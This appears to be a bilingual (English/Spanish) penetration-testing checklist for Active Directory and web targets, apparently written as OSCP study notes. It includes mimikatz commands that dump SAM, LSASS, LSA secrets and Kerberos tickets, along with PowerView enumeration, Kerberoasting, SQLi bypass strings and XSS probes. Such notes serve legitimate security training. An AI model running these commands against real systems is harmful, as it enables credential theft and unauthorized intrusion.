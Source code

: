 - [ ]  Known DC vulnerabilities:
    - [ ]  Zerologon
    - [ ]  PetitPotam
    - [ ]  NoPAC (once you have a user's creds)
- [ ]  Kerberoastable accounts
- [ ]  AS-REP Roastable accounts
- [ ]  Find computers where Domain Users can RDP
- [ ]  Find computers where Domain Users are Local Admin
- [ ]  Shortest Path to Domain Admins (esp. from Owned Principals)
- [ ]  Write-permissions on any critical accounts?
- [ ]  Enumerate:
    - [ ]  Users (interesting permissions)
    - [ ]  Groups (memberships)
    - [ ]  Services (which hosts? users w/ SPNs?)
    - [ ]  Computers (which ones have useful sessions?)
## Directorio activo
- Enumeración con acceso al dominio. Equipos, usuarios, dominio (`powerview`)
	```powershell
	# Dominio
	 Get-Domain | select -ExpandProperty name
	# Equipos y dirección ip para pegar a /etc/hosts
	 Get-DomainComputer | select -ExpandProperty name > equipos.txt
	foreach ($equipo in (Get-Content .\equipos.txt)) {$IP = Resolve-DnsName $equipo | select -ExpandProperty ipaddress; echo "$ip $equipo" } 
	# Usuarios del dominio
	Get-DomainUser | select -ExpandProperty name	
	```
- [[Miscelaneo#ASREPRoasting| Asreproasting]]: Cuentas sin preautenticación kerberos. Podemos obtener el hash de usuarios asreproasteables e intentar crackearlos. 
- [[Kerberoasting| Cuentas kerberoasteables]] : Cualquier usuario autenticado puede solicitar un TGS de una cuenta con SPN e intentar crackearlo con hashcat. Si se consigue acceso a la cuenta se usaría como una cuenta normal
- Puertos internos expuestos que no se ven desde fuera (`netstat.exe -at`)
- Escalar privilegios y tratar de encontrar más información (`whoami /priv`, `winpeas`, `findstr`...)
- Recopilación información con mimikatz 
	```powershell
	# SAM ... token::elevate? (pth y crack)
	.\mimikatz.exe privilege::debug lsadump::sam exit *> dumpSAM.txt
	# LSASS (pth, ovth, silver ticket,info en texto plano)
	.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit *> dumpLSASS.txt
	# Secrets (info adicional)
	.\mimikatz.exe privilege::debug lsadump::lsa /patch exit *> secrets_lsa.txt
	# ekeys (opth)
	.\mimikatz.exe privilege::debug sekurlsa::ekeys exit *> ekeys.txt
	# Extraer tickets (ptt)
	.\mimikatz.exe privilege::debug sekurlsa::tickets /export exit
	```
- Con la información probar pth, ptt, opth, crackear
- Con las credenciales obtenidas intentar conexión vía `rdp`, `winrm`, `impacket-wmiexec`, `impacket-psexec`
- Información útil con bloodhound

## Webpage

- [ ]  Check `searchsploit` for vulns in server software, web stack
- [ ]  Check `/robots.txt` and `/sitemap.xml` for directories/files of interest
- [ ]  Inspect HTML comments/source for juicy info
    - [ ]  secrets/passwords
    - [ ]  directories of interest
    - [ ]  software libraries in use
- [ ]  Inspect SSL certs for DNS subdomains and emails
- [ ]  Watch out for [Apache virtual hosts](https://httpd.apache.org/docs/current/vhosts/%7CApache%20virtual%20hosts.md) (and nginx/IIS/etc. equivalents)! Set `/etc/hosts` with ALL (sub)domains for the target IP.
- [ ]  Attempt login with default/common creds
- [ ]  Attempt login auth bypass (SQLi): `' or 1=1 -- #`
- [ ]  Test for [SQL/NoSQL Injection](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.3%20SQL%20Injection) using "bad" chars: `'")}$%%;\`
- [ ]  Test for [Command Injection](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.6%20Command%20Injection)
    - [ ]  separator characters: `; | & || &&`
    - [ ]  quoted context escape: `" '`
    - [ ]  UNIX subshells: `$(cmd)`, `>(cmd)` and backticks
- [ ]  Test for [Path Traversal](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.4%20Directory%20Traversal) in URL query and (arbitrary?) file upload
- [ ]  Test for [LFI/RFI](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.5%20LFI/RFI), especially in URL query params
- [ ]  Test for [XSS](https://github.com/camercu/oscp-prep/blob/main/CHEATSHEET.md#3.5.7%20Cross-Site%20Scripting%20\(XSS\)) on all input fields, URL query params, and HTTP Headers:
    - [ ]  Check what remains after filtering applied on input: `'';!--"<XSS>=&{()}`
    - [ ]  Try variations of `<script>alert(1)</script>`
---
- Comprobar whatweb y wappalizer + búsqueda de vulnerabilidades en el software, web stack vía searchsploit y navegador
- Buscar en directorio como `/robots.txt` , `/sitemap.xml`
- Intentar utilizar [credenciales por defecto](https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv)
- Hacer [[Ffuf| fuzzing]] de directorios y vhosts si procede
- Intentar en todos los campos que proceda inyectar comandos (sqli, xss,)
- Intentar path traversal
- Intentar LFI/RFI, especialmente en parámetros url